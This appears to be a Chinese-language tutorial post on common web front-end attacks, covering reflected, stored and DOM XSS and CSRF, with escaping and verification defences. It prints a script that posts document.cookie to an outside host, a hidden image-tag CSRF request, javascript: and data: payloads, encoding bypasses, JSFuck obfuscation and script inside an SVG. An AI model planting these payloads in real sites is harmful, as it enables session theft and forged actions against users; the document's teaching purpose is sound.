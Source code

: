```yaml
---
title: 常见的 web 前端攻击方式有哪些？
ID: '26487'
date: '2020-10-29 15:54:00'
categories:
  - engineering
  - dev-prod-env
tags:
  - engineering
  - dev-prod-env
---
```


# 常见的 web 前端攻击方式有哪些？

安全

- XSS 跨站请求攻击（反射型，存储型，DOM型）
- XSRF 跨站请求伪造

XSS 跨站请求攻击

比如：一个博客网站，我发表一篇博客，其中嵌入 `<script />`脚本，获取 cookie，发送到我的跨域服务器，当有人查看这篇文章，我可以获取访问者的 cookie

``` js 
<p>模拟 XSS 跨站，获取 cookie</p>
<script> alert(document.cookie);$.post('test.com', {cookie: document.cookie}) </script>
```

XSS 预防（也可以使用 XSS 工具，如 [https://www.npmjs.com/package/xss](https://www.npmjs.com/package/xss)）

- 替换特殊字符，如 < 变成`&lt;` > 变成`` `&gt;` ``
- `<script>` 变成 `&lt;script&gt;` ,这样不会作为脚本执行
- 建议前后端都替换

``` js 
&lt;script&gt; alert(document.cookie);$.post('test.com', {cookie: document.cookie}) &lt;/script&gt;
```

CSRF/XSRF 跨站请求伪造

比如：你正在购物，看中了某个商品，商品 id 是 100，付款接口：xxx.com/pay?id=100，但没任何验证，攻击者想购买 id 为 200 的商品，通过发送邮件隐藏 `<img src="xxx.com/pay?id=200" />`，一旦查看邮件，就购买了 id 为 200 的商品

XSRF 预防（现在很少见了）

- 使用 post 接口
- 增加验证，例如密码，短信验证码，指纹等

**其他**

为协议：

- Data 为协议：data:text/html;base64,PHNjcsdd=
- JavaScript为协议：javascript:alert(1)

Unicode 编码及 URL 编码绕过：

- JavaScript 编码：&#x，\\u 都可以用来表示一串 Unicode 编码，如：\\u0074 \\u0065 \\u0073 \\u0074 或 &#x0074 &#x0065 &#x0073 &#x0074
- HTML实体编码：&#116 &#101 &#115 &#116
- URL编码：%74 %65 %73 %74

xss 蠕虫，比如： myspace蠕虫攻击

xss 编码混淆，利用浏览器解析编码的顺序 js <- url <- html，比如： jsFuck 使用 6 个字符 \[\]()!+ 来编写

``` js 
false       =>  ![]
true        =>  !![]
undefined   =>  [][[]]
NaN         =>  +[![]]
0           =>  +[]
1           =>  +!+[]
2           =>  !+[]+!+[]
10          =>  +[[+!+[]]+[+[]]]
Array       =>  []
Number      =>  +[]
String      =>  []+[]
Boolean     =>  ![]
Function    =>  []["filter"]
run         =>  []["filter"]["constructor"]( CODE )()
eval        =>  []["filter"]["constructor"]("return eval")()( CODE )
window      =>  []["filter"]["constructor"]("return this")()
```

SVG 文件中插入 JS 代码

``` js 
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="100%" height="100%" version="1.1" xmlns="http://www.w3.org/2000/svg">
	<script>
		alert(11)
	</script>
</svg>
```
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
